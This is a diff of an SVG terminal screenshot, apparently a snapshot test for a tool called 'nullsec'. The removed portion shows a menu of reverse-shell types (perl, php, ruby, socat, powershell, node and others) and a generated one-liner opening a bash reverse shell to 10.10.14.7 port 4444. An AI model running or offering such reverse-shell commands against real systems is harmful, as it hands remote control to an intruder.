-       <text class="terminal-1556142248-r1" x="0" y="386" textLength="12.2" clip-path="url(#terminal-1556142248-line-15)">│</text>
-       <text class="terminal-1556142248-r3" x="24.4" y="386" textLength="24.4" clip-path="url(#terminal-1556142248-line-15)">13</text>
-       <text class="terminal-1556142248-r1" x="61" y="386" textLength="12.2" clip-path="url(#terminal-1556142248-line-15)">│</text>
-       <text class="terminal-1556142248-r2" x="85.4" y="386" textLength="170.8" clip-path="url(#terminal-1556142248-line-15)">perl          </text>
-       <text class="terminal-1556142248-r1" x="268.4" y="386" textLength="12.2" clip-path="url(#terminal-1556142248-line-15)">│</text>
-       <text class="terminal-1556142248-r1" x="1220" y="386" textLength="12.2" clip-path="url(#terminal-1556142248-line-15)">
- </text>
-       <text class="terminal-1556142248-r1" x="0" y="410.4" textLength="12.2" clip-path="url(#terminal-1556142248-line-16)">│</text>
-       <text class="terminal-1556142248-r3" x="24.4" y="410.4" textLength="24.4" clip-path="url(#terminal-1556142248-line-16)">14</text>
-       <text class="terminal-1556142248-r1" x="61" y="410.4" textLength="12.2" clip-path="url(#terminal-1556142248-line-16)">│</text>
-       <text class="terminal-1556142248-r2" x="85.4" y="410.4" textLength="170.8" clip-path="url(#terminal-1556142248-line-16)">perl no-sh    </text>
-       <text class="terminal-1556142248-r1" x="268.4" y="410.4" textLength="12.2" clip-path="url(#terminal-1556142248-line-16)">│</text>
-       <text class="terminal-1556142248-r1" x="1220" y="410.4" textLength="12.2" clip-path="url(#terminal-1556142248-line-16)">
- </text>
-       <text class="terminal-1556142248-r1" x="0" y="434.8" textLength="12.2" clip-path="url(#terminal-1556142248-line-17)">│</text>
-       <text class="terminal-1556142248-r3" x="24.4" y="434.8" textLength="24.4" clip-path="url(#terminal-1556142248-line-17)">15</text>
-       <text class="terminal-1556142248-r1" x="61" y="434.8" textLength="12.2" clip-path="url(#terminal-1556142248-line-17)">│</text>
-       <text class="terminal-1556142248-r2" x="85.4" y="434.8" textLength="170.8" clip-path="url(#terminal-1556142248-line-17)">php exec      </text>
-       <text class="terminal-1556142248-r1" x="268.4" y="434.8" textLength="12.2" clip-path="url(#terminal-1556142248-line-17)">│</text>
-       <text class="terminal-1556142248-r1" x="1220" y="434.8" textLength="12.2" clip-path="url(#terminal-1556142248-line-17)">
- </text>
-       <text class="terminal-1556142248-r1" x="0" y="459.2" textLength="12.2" clip-path="url(#terminal-1556142248-line-18)">│</text>
-       <text class="terminal-1556142248-r3" x="24.4" y="459.2" textLength="24.4" clip-path="url(#terminal-1556142248-line-18)">16</text>
-       <text class="terminal-1556142248-r1" x="61" y="459.2" textLength="12.2" clip-path="url(#terminal-1556142248-line-18)">│</text>
-       <text class="terminal-1556142248-r2" x="85.4" y="459.2" textLength="170.8" clip-path="url(#terminal-1556142248-line-18)">php system    </text>
-       <text class="terminal-1556142248-r1" x="268.4" y="459.2" textLength="12.2" clip-path="url(#terminal-1556142248-line-18)">│</text>
-       <text class="terminal-1556142248-r1" x="1220" y="459.2" textLength="12.2" clip-path="url(#terminal-1556142248-line-18)">
- </text>
-       <text class="terminal-1556142248-r1" x="0" y="483.6" textLength="12.2" clip-path="url(#terminal-1556142248-line-19)">│</text>
-       <text class="terminal-1556142248-r3" x="24.4" y="483.6" textLength="24.4" clip-path="url(#terminal-1556142248-line-19)">17</text>
-       <text class="terminal-1556142248-r1" x="61" y="483.6" textLength="12.2" clip-path="url(#terminal-1556142248-line-19)">│</text>
-       <text class="terminal-1556142248-r2" x="85.4" y="483.6" textLength="170.8" clip-path="url(#terminal-1556142248-line-19)">php shell_exec</text>
-       <text class="terminal-1556142248-r1" x="268.4" y="483.6" textLength="12.2" clip-path="url(#terminal-1556142248-line-19)">│</text>
-       <text class="terminal-1556142248-r1" x="1220" y="483.6" textLength="12.2" clip-path="url(#terminal-1556142248-line-19)">
- </text>
-       <text class="terminal-1556142248-r1" x="0" y="508" textLength="12.2" clip-path="url(#terminal-1556142248-line-20)">│</text>
-       <text class="terminal-1556142248-r3" x="24.4" y="508" textLength="24.4" clip-path="url(#terminal-1556142248-line-20)">18</text>
-       <text class="terminal-1556142248-r1" x="61" y="508" textLength="12.2" clip-path="url(#terminal-1556142248-line-20)">│</text>
-       <text class="terminal-1556142248-r2" x="85.4" y="508" textLength="170.8" clip-path="url(#terminal-1556142248-line-20)">ruby          </text>
-       <text class="terminal-1556142248-r1" x="268.4" y="508" textLength="12.2" clip-path="url(#terminal-1556142248-line-20)">│</text>
-       <text class="terminal-1556142248-r1" x="1220" y="508" textLength="12.2" clip-path="url(#terminal-1556142248-line-20)">
- </text>
-       <text class="terminal-1556142248-r1" x="0" y="532.4" textLength="12.2" clip-path="url(#terminal-1556142248-line-21)">│</text>
-       <text class="terminal-1556142248-r3" x="24.4" y="532.4" textLength="24.4" clip-path="url(#terminal-1556142248-line-21)">19</text>
-       <text class="terminal-1556142248-r1" x="61" y="532.4" textLength="12.2" clip-path="url(#terminal-1556142248-line-21)">│</text>
-       <text class="terminal-1556142248-r2" x="85.4" y="532.4" textLength="170.8" clip-path="url(#terminal-1556142248-line-21)">ruby no-sh    </text>
-       <text class="terminal-1556142248-r1" x="268.4" y="532.4" textLength="12.2" clip-path="url(#terminal-1556142248-line-21)">│</text>
-       <text class="terminal-1556142248-r1" x="1220" y="532.4" textLength="12.2" clip-path="url(#terminal-1556142248-line-21)">
- </text>
-       <text class="terminal-1556142248-r1" x="0" y="556.8" textLength="12.2" clip-path="url(#terminal-1556142248-line-22)">│</text>
-       <text class="terminal-1556142248-r3" x="24.4" y="556.8" textLength="24.4" clip-path="url(#terminal-1556142248-line-22)">20</text>
-       <text class="terminal-1556142248-r1" x="61" y="556.8" textLength="12.2" clip-path="url(#terminal-1556142248-line-22)">│</text>
-       <text class="terminal-1556142248-r2" x="85.4" y="556.8" textLength="170.8" clip-path="url(#terminal-1556142248-line-22)">socat         </text>
-       <text class="terminal-1556142248-r1" x="268.4" y="556.8" textLength="12.2" clip-path="url(#terminal-1556142248-line-22)">│</text>
-       <text class="terminal-1556142248-r1" x="1220" y="556.8" textLength="12.2" clip-path="url(#terminal-1556142248-line-22)">
- </text>
-       <text class="terminal-1556142248-r1" x="0" y="581.2" textLength="12.2" clip-path="url(#terminal-1556142248-line-23)">│</text>
-       <text class="terminal-1556142248-r3" x="24.4" y="581.2" textLength="24.4" clip-path="url(#terminal-1556142248-line-23)">21</text>
-       <text class="terminal-1556142248-r1" x="61" y="581.2" textLength="12.2" clip-path="url(#terminal-1556142248-line-23)">│</text>
-       <text class="terminal-1556142248-r2" x="85.4" y="581.2" textLength="170.8" clip-path="url(#terminal-1556142248-line-23)">socat tty     </text>
-       <text class="terminal-1556142248-r1" x="268.4" y="581.2" textLength="12.2" clip-path="url(#terminal-1556142248-line-23)">│</text>
-       <text class="terminal-1556142248-r1" x="1220" y="581.2" textLength="12.2" clip-path="url(#terminal-1556142248-line-23)">
- </text>
-       <text class="terminal-1556142248-r1" x="0" y="605.6" textLength="12.2" clip-path="url(#terminal-1556142248-line-24)">│</text>
-       <text class="terminal-1556142248-r3" x="24.4" y="605.6" textLength="24.4" clip-path="url(#terminal-1556142248-line-24)">22</text>
-       <text class="terminal-1556142248-r1" x="61" y="605.6" textLength="12.2" clip-path="url(#terminal-1556142248-line-24)">│</text>
-       <text class="terminal-1556142248-r2" x="85.4" y="605.6" textLength="170.8" clip-path="url(#terminal-1556142248-line-24)">powershell    </text>
-       <text class="terminal-1556142248-r1" x="268.4" y="605.6" textLength="12.2" clip-path="url(#terminal-1556142248-line-24)">│</text>
-       <text class="terminal-1556142248-r1" x="1220" y="605.6" textLength="12.2" clip-path="url(#terminal-1556142248-line-24)">
- </text>
-       <text class="terminal-1556142248-r1" x="0" y="630" textLength="12.2" clip-path="url(#terminal-1556142248-line-25)">│</text>
-       <text class="terminal-1556142248-r3" x="24.4" y="630" textLength="24.4" clip-path="url(#terminal-1556142248-line-25)">23</text>
-       <text class="terminal-1556142248-r1" x="61" y="630" textLength="12.2" clip-path="url(#terminal-1556142248-line-25)">│</text>
-       <text class="terminal-1556142248-r2" x="85.4" y="630" textLength="170.8" clip-path="url(#terminal-1556142248-line-25)">awk           </text>
-       <text class="terminal-1556142248-r1" x="268.4" y="630" textLength="12.2" clip-path="url(#terminal-1556142248-line-25)">│</text>
-       <text class="terminal-1556142248-r1" x="1220" y="630" textLength="12.2" clip-path="url(#terminal-1556142248-line-25)">
- </text>
-       <text class="terminal-1556142248-r1" x="0" y="654.4" textLength="12.2" clip-path="url(#terminal-1556142248-line-26)">│</text>
-       <text class="terminal-1556142248-r3" x="24.4" y="654.4" textLength="24.4" clip-path="url(#terminal-1556142248-line-26)">24</text>
-       <text class="terminal-1556142248-r1" x="61" y="654.4" textLength="12.2" clip-path="url(#terminal-1556142248-line-26)">│</text>
-       <text class="terminal-1556142248-r2" x="85.4" y="654.4" textLength="170.8" clip-path="url(#terminal-1556142248-line-26)">node          </text>
-       <text class="terminal-1556142248-r1" x="268.4" y="654.4" textLength="12.2" clip-path="url(#terminal-1556142248-line-26)">│</text>
-       <text class="terminal-1556142248-r1" x="1220" y="654.4" textLength="12.2" clip-path="url(#terminal-1556142248-line-26)">
- </text>
-       <text class="terminal-1556142248-r1" x="0" y="678.8" textLength="12.2" clip-path="url(#terminal-1556142248-line-27)">│</text>
-       <text class="terminal-1556142248-r3" x="24.4" y="678.8" textLength="24.4" clip-path="url(#terminal-1556142248-line-27)">25</text>
-       <text class="terminal-1556142248-r1" x="61" y="678.8" textLength="12.2" clip-path="url(#terminal-1556142248-line-27)">│</text>
-       <text class="terminal-1556142248-r2" x="85.4" y="678.8" textLength="170.8" clip-path="url(#terminal-1556142248-line-27)">lua           </text>
-       <text class="terminal-1556142248-r1" x="268.4" y="678.8" textLength="12.2" clip-path="url(#terminal-1556142248-line-27)">│</text>
-       <text class="terminal-1556142248-r1" x="1220" y="678.8" textLength="12.2" clip-path="url(#terminal-1556142248-line-27)">
- </text>
-       <text class="terminal-1556142248-r1" x="0" y="703.2" textLength="12.2" clip-path="url(#terminal-1556142248-line-28)">│</text>
-       <text class="terminal-1556142248-r3" x="24.4" y="703.2" textLength="24.4" clip-path="url(#terminal-1556142248-line-28)">26</text>
-       <text class="terminal-1556142248-r1" x="61" y="703.2" textLength="12.2" clip-path="url(#terminal-1556142248-line-28)">│</text>
-       <text class="terminal-1556142248-r2" x="85.4" y="703.2" textLength="170.8" clip-path="url(#terminal-1556142248-line-28)">telnet        </text>
-       <text class="terminal-1556142248-r1" x="268.4" y="703.2" textLength="12.2" clip-path="url(#terminal-1556142248-line-28)">│</text>
-       <text class="terminal-1556142248-r1" x="1220" y="703.2" textLength="12.2" clip-path="url(#terminal-1556142248-line-28)">
- </text>
-       <text class="terminal-1556142248-r1" x="0" y="727.6" textLength="12.2" clip-path="url(#terminal-1556142248-line-29)">│</text>
-       <text class="terminal-1556142248-r3" x="24.4" y="727.6" textLength="24.4" clip-path="url(#terminal-1556142248-line-29)">27</text>
-       <text class="terminal-1556142248-r1" x="61" y="727.6" textLength="12.2" clip-path="url(#terminal-1556142248-line-29)">│</text>
-       <text class="terminal-1556142248-r2" x="85.4" y="727.6" textLength="170.8" clip-path="url(#terminal-1556142248-line-29)">openssl       </text>
-       <text class="terminal-1556142248-r1" x="268.4" y="727.6" textLength="12.2" clip-path="url(#terminal-1556142248-line-29)">│</text>
-       <text class="terminal-1556142248-r1" x="1220" y="727.6" textLength="12.2" clip-path="url(#terminal-1556142248-line-29)">
- </text>
-       <text class="terminal-1556142248-r1" x="0" y="752" textLength="12.2" clip-path="url(#terminal-1556142248-line-30)">│</text>
-       <text class="terminal-1556142248-r3" x="24.4" y="752" textLength="24.4" clip-path="url(#terminal-1556142248-line-30)">28</text>
-       <text class="terminal-1556142248-r1" x="61" y="752" textLength="12.2" clip-path="url(#terminal-1556142248-line-30)">│</text>
-       <text class="terminal-1556142248-r2" x="85.4" y="752" textLength="170.8" clip-path="url(#terminal-1556142248-line-30)">zsh           </text>
-       <text class="terminal-1556142248-r1" x="268.4" y="752" textLength="12.2" clip-path="url(#terminal-1556142248-line-30)">│</text>
-       <text class="terminal-1556142248-r1" x="1220" y="752" textLength="12.2" clip-path="url(#terminal-1556142248-line-30)">
- </text>
-       <text class="terminal-1556142248-r1" x="0" y="776.4" textLength="12.2" clip-path="url(#terminal-1556142248-line-31)">│</text>
-       <text class="terminal-1556142248-r3" x="24.4" y="776.4" textLength="24.4" clip-path="url(#terminal-1556142248-line-31)">29</text>
-       <text class="terminal-1556142248-r1" x="61" y="776.4" textLength="12.2" clip-path="url(#terminal-1556142248-line-31)">│</text>
-       <text class="terminal-1556142248-r2" x="85.4" y="776.4" textLength="170.8" clip-path="url(#terminal-1556142248-line-31)">go            </text>
-       <text class="terminal-1556142248-r1" x="268.4" y="776.4" textLength="12.2" clip-path="url(#terminal-1556142248-line-31)">│</text>
-       <text class="terminal-1556142248-r1" x="1220" y="776.4" textLength="12.2" clip-path="url(#terminal-1556142248-line-31)">
- </text>
-       <text class="terminal-1556142248-r1" x="0" y="800.8" textLength="280.6" clip-path="url(#terminal-1556142248-line-32)">└────┴────────────────┘</text>
-       <text class="terminal-1556142248-r1" x="1220" y="800.8" textLength="12.2" clip-path="url(#terminal-1556142248-line-32)">
- </text>
-       <text class="terminal-1556142248-r1" x="1220" y="825.2" textLength="12.2" clip-path="url(#terminal-1556142248-line-33)">
- </text>
-       <text class="terminal-1556142248-r4" x="0" y="849.6" textLength="134.2" clip-path="url(#terminal-1556142248-line-34)">bash -i &gt;&amp; </text>
-       <text class="terminal-1556142248-r4" x="134.2" y="849.6" textLength="244" clip-path="url(#terminal-1556142248-line-34)">/dev/tcp/10.10.14.7/</text>
-       <text class="terminal-1556142248-r4" x="378.2" y="849.6" textLength="48.8" clip-path="url(#terminal-1556142248-line-34)">4444</text>
-       <text class="terminal-1556142248-r4" x="439.2" y="849.6" textLength="12.2" clip-path="url(#terminal-1556142248-line-34)">0</text>
-       <text class="terminal-1556142248-r4" x="451.4" y="849.6" textLength="24.4" clip-path="url(#terminal-1556142248-line-34)">&gt;&amp;</text>
-       <text class="terminal-1556142248-r4" x="475.8" y="849.6" textLength="12.2" clip-path="url(#terminal-1556142248-line-34)">1</text>
-       <text class="terminal-1556142248-r1" x="1220" y="849.6" textLength="12.2" clip-path="url(#terminal-1556142248-line-34)">
- </text>
-       <text class="terminal-1556142248-r1" x="1220" y="874" textLength="12.2" clip-path="url(#terminal-1556142248-line-35)">
- </text>
-       <text class="terminal-1556142248-r5" x="0" y="898.4" textLength="353.8" clip-path="url(#terminal-1556142248-line-36)">Logged to the session report </text>
-       <text class="terminal-1556142248-r6" x="353.8" y="898.4" textLength="12.2" clip-path="url(#terminal-1556142248-line-36)">(</text>
-       <text class="terminal-1556142248-r5" x="366" y="898.4" textLength="170.8" clip-path="url(#terminal-1556142248-line-36)">home menu -&gt; r</text>
-       <text class="terminal-1556142248-r6" x="536.8" y="898.4" textLength="12.2" clip-path="url(#terminal-1556142248-line-36)">)</text>
-       <text class="terminal-1556142248-r5" x="549" y="898.4" textLength="12.2" clip-path="url(#terminal-1556142248-line-36)">.</text>
-       <text class="terminal-1556142248-r1" x="1220" y="898.4" textLength="12.2" clip-path="url(#terminal-1556142248-line-36)">
+       <text class="terminal-1586421055-r3" x="0" y="44.4" textLength="1024.8" clip-path="url(#terminal-1586421055-line-1)">exclusion for this folder, then regenerate it. The rest of nullsec works without it.</text>
+       <text class="terminal-1586421055-r3" x="1220" y="44.4" textLength="12.2" clip-path="url(#terminal-1586421055-line-1)">
</text>
    </g>
  </g>
</svg>
